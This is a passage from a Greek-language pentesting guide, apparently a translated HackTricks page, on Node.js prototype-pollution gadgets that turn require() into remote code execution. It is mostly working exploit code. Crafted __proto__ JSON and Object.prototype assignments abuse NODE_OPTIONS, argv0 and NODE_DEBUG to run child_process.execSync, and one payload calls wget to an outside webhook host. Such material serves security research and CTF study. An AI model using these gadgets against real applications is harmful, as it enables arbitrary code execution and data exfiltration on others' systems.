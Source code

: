 #### Σχετική απαίτηση - 2

{% tabs %}
{% tab title="εκμετάλλευση" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Manual Pollution
b = {}
b.__proto__.data = {}
b.__proto__.data.exports = { ".": "./malicious.js" }
b.__proto__.path = "/tmp"
b.__proto__.name = "./relative_path.js" //This needs to be the relative path that will be imported in the require

// Trigger gadget
var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"data": {"exports": {".": "./malicious.js"}}, "path": "/tmp", "name": "./relative_path.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_exports_path\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('./relative_path.js');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}

{% tab title="κακόβουλο.js" %}
```javascript
const { fork } = require('child_process');
console.log("Hellooo from malicious");
fork('/path/to/anything');
```
{% endtab %}
{% endtabs %}

#### Σχετική απαίτηση - 3

Παρόμοια με την προηγούμενη, αυτή βρέθηκε στο [**αυτό το άρθρο**](https://blog.huli.tw/2022/12/26/en/ctf-2022-web-js-summary/#balsn-ctf-2022-2linenodejs).
```javascript
// Requiring /opt/yarn-v1.22.19/preinstall.js
Object.prototype["data"] = {
exports: {
".": "./preinstall.js"
},
name: './usage'
}
Object.prototype["path"] = '/opt/yarn-v1.22.19'
Object.prototype.shell = "node"
Object.prototype["npm_config_global"] = 1
Object.prototype.env = {
"NODE_DEBUG": "console.log(require('child_process').execSync('wget${IFS}https://webhook.site?q=2').toString());process.exit()//",
"NODE_OPTIONS": "--require=/proc/self/environ"
}

```